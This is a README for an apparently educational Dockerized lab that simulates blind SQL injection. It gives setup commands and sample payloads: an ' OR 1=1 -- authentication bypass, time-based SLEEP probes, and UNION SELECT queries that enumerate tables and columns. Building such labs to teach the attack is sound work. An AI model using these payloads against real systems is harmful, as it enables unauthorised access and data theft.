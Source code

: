 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
```

```bash
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection-Dockerized.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 abdelaziz/dvwa-custom
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

#### 1. **Boolean-Based Blind SQL Injection**

This method evaluates responses based on a condition:

- True condition (bypasses authentication):
```sql
' OR 1=1 --
```

- False condition (does not bypass authentication):
```sql
' OR 1=2 --
```

#### 2. **Time-Based Blind SQL Injection**

This method uses time delays to infer information:

- Delay the response if the condition is true:
```sql
' OR IF(1=1, SLEEP(5), 0) --
```

- Test if the username is 'admin':
```sql
' OR IF(username='admin', SLEEP(5), 0) --
```

#### 3. **Data Enumeration**

Extract database structure or content:

- List table names:
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables --
```

- List column names from a specific table:
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' --
```

---

### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.
